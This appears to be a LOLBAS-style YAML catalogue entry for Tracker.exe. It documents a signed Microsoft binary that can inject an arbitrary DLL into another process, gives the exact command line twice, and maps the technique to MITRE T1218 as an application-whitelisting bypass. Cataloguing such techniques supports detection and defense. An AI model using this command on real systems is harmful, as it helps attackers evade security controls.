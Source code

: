```yaml
---
Name: Tracker.exe
Description: Tool included with Microsoft .Net Framework.
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
    Description: Use tracker.exe to proxy execution of an arbitrary DLL into another process. Since tracker.exe is also signed it can be used to bypass application whitelisting solutions.
    Usecase: Injection of locally stored DLL file into target process.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
    Description: Use tracker.exe to proxy execution of an arbitrary DLL into another process. Since tracker.exe is also signed it can be used to bypass application whitelisting solutions.
    Usecase: Injection of locally stored DLL file into target process.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
Full_Path:
  - Path:
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/subTee/status/793151392185589760
  - Link: https://attack.mitre.org/wiki/Execution
Acknowledgment:
  - Person: Casey Smith
    Handle: '@subTee'
---
```

